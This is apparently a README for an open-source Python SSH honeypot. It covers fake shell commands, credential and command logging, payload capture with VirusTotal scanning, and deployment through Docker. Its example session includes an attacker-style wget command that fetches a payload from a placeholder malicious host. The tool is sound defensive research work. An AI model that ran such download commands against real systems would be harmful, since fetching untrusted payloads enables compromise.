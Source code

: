 # SSH Honeypot - Fake SSH Server

![Honeypot Banner](https://img.shields.io/badge/SSH-Honeypot-blue?style=for-the-badge)

A lightweight and interactive **SSH honeypot** that simulates a realistic Linux environment to capture malicious behaviors.

🛡️ Developed with **Python**, using **Paramiko** for SSH protocol handling.  
🛡️ Designed for **deception**, **attack analysis**, and **cybersecurity research**.

---

## 🚀 Features

- Accepts **SSH password authentication** with realistic banners
- Simulates Linux shell environment:
  - `ls`, `pwd`, `uname -a`, `whoami`, `who`, `ps`, `cd`, etc.
- **Realistic "who" command** (shows attacker's session and fake others)
- **Dynamic fake "ps" command** (randomized process list)
- **Supports file download simulation**:
  - Detects `wget` and `curl` commands
  - Downloads payloads locally
  - **Automatic VirusTotal upload and report** (if API key configured)
- **Every typed command is logged**:
  - Human-readable logs and structured JSON logs
- Handles **exit** and **quit** commands cleanly (logout)
- **Separate SSH keys** generated for each source IP
- **Session timeout handling** (idle detection with prompt recovery)
- **Error-resistant SSH handling** (handles broken/invalid connections)
- **Concurrent connections** supported (multi-threaded)
- Can reject the connexion if login = password with a setting (LOGINPASSWD=False)
- Special credentials behavior: define EXCEPTION_CREDENTIALS to tag suspicious logins differently
- Fully **configurable** via `.env` file
- **Docker-ready** deployment

---

## 📦 Installation

### 1. Clone the repository
```bash
git clone https://github.com/jmousqueton/ssh-honeypot.git
cd ssh-honeypot
```

### 2. Create and configure the `.env` file
Copy the example and edit if needed:
```bash
cp .env.example .env
```

Available `.env` variables:

| Variable | Default | Description |
|:---------|:--------|:------------|
| `HOST` | `0.0.0.0` | Interface to bind the SSH server |
| `PORT` | `22` | Port to listen on |
| `LOG_PATH` | `./logs` | Path to save log files |
| `SERVICE_NAME` | `ssh-honeypot` | Prefix for log files |
| `LOGINPASSWD` | `True` | Refuse logins where login==password |
| `SSH_KEY_BITS` | `2048` | Size of generated SSH RSA keys |
| `DEBUG` | `False` | Enable verbose debug output |
| `VT_API_KEY` | (optional) | VirusTotal API key for file analysis |

---

## 🐉 Docker Deployment

### Build and run with Docker

```bash
docker build -t ssh-honeypot .
docker run -d --restart unless-stopped --env-file .env -p 22:22 -v $(pwd)/logs:/opt/pot-de-miel/sshd/logs --name ssh-honeypot ssh-honeypot
```

Or using `docker-compose`:

```bash
docker-compose up -d
```

---

## 📜 Logs

- **Human-readable log**:  
  `logs/ssh-honeypot.log`

- **JSON structured log**:  
  `logs/ssh-honeypot.jsonl`

Each log line includes:
- Source IP
- Username
- Password
- Session ID
- **All commands executed**
- **Payload download events** (URL, file hash)
- **VirusTotal scan results** (if configured)

---

## 🛠️ Supported Commands

| Command | Behavior |
|:--------|:---------|
| `ls` | List fake directory contents |
| `pwd` | Show fake current directory |
| `whoami` | Return "root" |
| `who` | Display attacker and fake users |
| `ps`, `ps aux`, `ps -ef` | Randomly generated fake process list |
| `cd <dir>` | Change directory (if exists in fake filesystem) |
| `wget <url>`, `curl <url>` | Fake download + local file saving + VirusTotal analysis |
| `uname -a` | Fake randomized Linux system information |
| `exit`, `quit` | Disconnect properly |

---

🔐 Special Credentials
You can define credentials that trigger special behavior (alert in logs) using the EXCEPTION_CREDENTIALS list.

Example configuration:

```python
Copier
Modifier
EXCEPTION_CREDENTIALS = [
    ("*", "3245gs5662d34"),
    ("admin", "*"),
    ("testuser", "testpass123"),
]
```

Meaning:

- Any username using password `3245gs5662d34` is rejected 
- Username `admin` with any password is rejected
- Username `testuser` with password `testpass123` is rejected

When triggered, the logs will tag these authentication attempts differently (auth_attempt_exception).

---

## 📋 Example Session

```bash
ssh julien@honeypot_ip
julien@honeypot_ip's password:
Welcome to Ubuntu 20.04 LTS (GNU/Linux 5.15.0-76-generic)

root@iot-gateway:~# who
julien   pts/1    2025-04-27 16:30 (82.65.156.219)
admin    pts/0    2025-04-27 14:10 (10.0.0.5)

root@iot-gateway:~# ps aux
root      1523  0.0  0.5  11032  5232 ?        Ss   14:21   0:00 /usr/sbin/sshd -D
mysql     2124  0.2  1.0 120000 15324 ?        Sl   14:20   0:02 /usr/sbin/mysqld

root@iot-gateway:~# wget http://malicious.example.com/payload
root@iot-gateway:~# exit
logout
Connection to honeypot_ip closed.
```

---

## ⚠️ Important Notes

- This honeypot **simulates** a Linux environment — no real shell is exposed.
- **NEVER expose** this honeypot directly to critical infrastructure.
- Use strict **firewall** and **network monitoring** for deployments.

---

## 📚 License

MIT License — Free for educational and research use.  
Not intended for malicious activities.

---

## ❤️ Contributions

Pull Requests are welcome!  
Ideas like fake netstat, fake file upload, full session playback, etc. are encouraged!

---
